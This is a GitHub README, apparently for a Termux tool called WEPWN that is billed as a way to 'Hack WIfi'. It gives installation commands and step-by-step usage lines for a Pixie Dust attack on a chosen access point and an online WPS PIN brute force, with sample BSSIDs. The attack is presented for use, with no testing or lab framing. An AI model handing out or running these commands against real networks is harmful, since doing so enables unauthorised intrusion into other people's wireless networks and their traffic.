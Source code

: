 <h1 align="center">WEPWN</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

#### Start

<p align="center"><img src=".assets/demo2.png"></p>

#### Cracked

<p align="center"><img src=".assets/demo3.png"></p>

#### Autostart if failed 

<p align="center"><img src=".assets/demo4.png"></p>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install -y root-repo -y
pkg install -y git tsu python termux-api wpa-supplicant pixiewps iw
git clone https://github.com/ITSN0B1T4/wepwn
cd wepwn
chmod +x wepwn.py
```
#### Help : `sudo python wepwn.py --help`
#### Example : `sudo python wepwn.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wepwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wepwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wepwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


#### Real Author : rofl0r => BiRi_B@B@ => Meh
